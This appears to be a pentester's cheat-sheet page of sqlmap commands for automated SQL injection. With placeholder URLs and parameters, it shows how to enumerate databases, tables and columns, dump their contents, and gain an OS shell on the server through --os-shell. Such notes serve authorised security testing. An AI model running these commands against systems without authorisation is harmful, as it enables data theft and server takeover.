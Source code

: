 # sqlmap

> Automated SQL injection.

---

## Run off an HTTP request

1. Use Burpsuite to capture an innocent request to the vulnerable URL
2. Copy that request to a text file (right-click request body and select `Copy to file`)
3. Run `sqlmap`

```bash
sqlmap -r $REQUEST_TEXT_FILE [any of the options below]
```

---

## Specify an Injection Technique

```bash
sqlmap --technique=$TECHNIQUE_STRING $OTHER_ARGS
```

- `$TECHNIQUE_STRING` by default is `BEUSTQ`, where each letter stands for a different technique `sqlmap` can use:
	- `B`: [[blind-sql-injection#Boolean-based SQL Injection|boolean-based blind injection]]
	- `E`: [[blind-sql-injection#Error-based Blind SQL Injection|error-based blind injection]]
	- `Q`: typical query
	- `S`: stacked query 
	- `T`: [[blind-sql-injection#Time-based Blind SQL Injection|time-based blind injection]]
	- `U`: [[union-attack|union-based injection]]

---

## Crawl web application

```bash
sqlmap -u $URL --crawl=1
```

---

## Show existing database names

```bash
sqlmap -u $SQL_INJECTABLE_URL?$VULN_PARAM=$ANY_VALUE --dbs
```

---

## Show a database's table names

```bash
sqlmap -u $SQL_INJECTABLE_URL?$VULN_PARAM=$ANY_VALUE --tables -D $DATABASE_NAME
```

---

## Show a table's column names

```bash
sqlmap -u $SQL_INJECTABLE_URL $VULN_PARAM=$ANY_VALUE --columns -D $DATABASE_NAME -T $TABLE_NAME
```

---

## Dump a table

```bash
sqlmap -u $SQL_INJECTABLE_URL $VULN_PARAM=$ANY_VALUE --dump -D $DATABASE_NAME -T $TABLE_NAME
```

---

## Dump any database `sqlmap` can find from SQL-injectable URL

```bash
sqlmap -u $SQL_INJECTABLE_URL $VULN_PARAM=$ANY_VALUE --dbms=$DBMS --dump --threads=5
```

---

## Gain remote shell from SQL-injectable URL

```bash
sqlmap -u $SQL_INJECTABLE_URL $VULN_PARAM=$ANY_VALUE --dbms=$DBMS --os-shell
```

---

## Can't find anything?

Try `--level=[1|2|3]` and/or `--risk=[1|2|3]`
